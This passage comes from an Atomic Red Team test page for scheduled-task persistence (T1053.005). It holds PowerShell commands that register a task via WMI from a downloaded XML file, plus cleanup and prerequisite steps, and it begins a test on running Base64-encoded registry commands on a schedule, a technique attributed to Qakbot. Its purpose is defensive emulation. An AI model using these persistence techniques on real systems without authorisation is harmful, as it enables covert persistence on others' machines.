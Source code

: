
#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$xml = [System.IO.File]::ReadAllText("#{xml_path}")
Invoke-CimMethod -ClassName PS_ScheduledTask -NameSpace "Root\Microsoft\Windows\TaskScheduler" -MethodName "RegisterByXml" -Arguments @{ Force = $true; Xml =$xml; }
```

#### Cleanup Commands:
```powershell
Unregister-ScheduledTask -TaskName "T1053_005_WMI" -confirm:$false >$null 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: File to copy must exist on disk at specified location (#{xml_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{xml_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{xml_path}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1053.005/src/T1053_005_WMI.xml" -OutFile "#{xml_path}"
```




<br/>
<br/>

## Atomic Test #7 - Scheduled Task Executing Base64 Encoded Commands From Registry
A Base64 Encoded command will be stored in the registry (ping 127.0.0.1) and then a scheduled task will be created.
The scheduled task will launch powershell to decode and run the command in the registry daily.
This is a persistence mechanism recently seen in use by Qakbot.  

[Additiona Information](https://thedfirreport.com/2022/02/07/qbot-likes-to-move-it-move-it/)

**Supported Platforms:** Windows


**auto_generated_guid:** e895677d-4f06-49ab-91b6-ae3742d0a2ba





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| time | Daily scheduled task execution time | string | 07:45|
